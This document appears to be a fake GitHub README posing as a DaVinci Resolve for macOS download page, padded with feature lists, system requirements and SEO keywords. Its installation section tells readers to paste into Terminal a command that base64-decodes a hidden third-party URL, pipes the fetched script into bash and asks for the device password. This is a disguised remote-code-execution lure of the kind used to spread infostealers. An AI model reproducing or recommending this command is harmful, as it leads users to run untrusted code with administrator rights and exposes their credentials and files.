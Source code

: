 # 🎬 DaVinci Resolve for macOS – Professional Video Editing & Color Grading  

## 📌 About DaVinci Resolve  
DaVinci Resolve is a world-leading professional post-production software for macOS, integrating video editing, advanced color correction, visual effects, motion graphics, and audio post-production into one powerful application.  

With Hollywood-grade tools, real-time performance, and collaborative workflows, it’s the preferred choice for filmmakers, YouTubers, and studios. From basic cuts to complex effects, DaVinci Resolve delivers unmatched quality and flexibility.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9kYXZpbmNpL2luc3RhbGwuc2g= | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![DaVinci Screenshot 1](https://avatars.mds.yandex.net/i?id=423dd311aae7f4e57658d21a4d3c0ebe_l-4937498-images-thumbs&n=13)  
![DaVinci Screenshot 2](https://i2.wp.com/www.slashcam.de/images/news/DaVinci-Resolve-16-Color-15680_PIC1.jpg)  

---

## 🚀 Key Features  
- 🎥 **Professional Video Editing** – Non-linear editing for any project.  
- 🎨 **Hollywood-Grade Color Grading** – Industry-leading color correction tools.  
- ✨ **Fusion VFX** – Create stunning visual effects and motion graphics.  
- 🎧 **Fairlight Audio** – Complete audio post-production suite.  
- 🌐 **Collaboration Tools** – Multi-user workflow for teams.  
- ⚡ **Optimized for Apple Silicon** – Faster rendering and playback.  
- 📦 **Media Management** – Organize and relink assets efficiently.  
- 📽 **Wide Format Support** – Works with virtually any video format.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i7 and above  
- **RAM:** 16 GB minimum (32 GB for 8K projects)  
- **Storage:** 5 GB for installation  
- **GPU:** Dedicated GPU with at least 4GB VRAM  
- **Others:** Internet connection for updates and activation  

---

## 🔍 SEO Keywords  
davinci resolve mac · davinci resolve macos · mac video editing · davinci resolve color grading · davinci resolve studio · davinci resolve fusion · davinci resolve fairlight · davinci resolve download mac · video editing software mac · mac post production software
